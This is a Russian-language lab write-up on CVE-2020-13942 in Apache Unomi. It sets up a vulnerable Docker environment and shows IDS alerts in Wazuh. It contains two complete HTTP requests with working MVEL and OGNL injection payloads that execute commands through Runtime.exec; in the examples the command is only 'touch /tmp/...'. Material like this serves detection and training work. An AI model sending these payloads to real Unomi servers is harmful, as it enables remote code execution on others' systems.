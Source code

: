 # CVE-2020-13942

Apache Unomi — это платформа данных о клиентах с открытым исходным кодом Java, сервер Java, предназначенный для управления данными о клиентах, потенциальных клиентах и ​​посетителях, а также для персонализации обслуживания клиентов. В версиях до 1.5.1 Apache Unomi позволял злоумышленникам отправлять вредоносные запросы с выражениями MVEL и OGNL, которые могли содержать произвольные классы, что приводило к удаленному выполнению кода (RCE) с привилегиями приложения Unomi.

### Эксплуатация уязвимости

Для запуска уязвимой среды выоплните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8181 будет доступна стандартная страница Apache Unomi

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Выполнение произвольных команд через выражения MVEL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Выполнение произвольных команд через выражения OGNL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 1060

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>
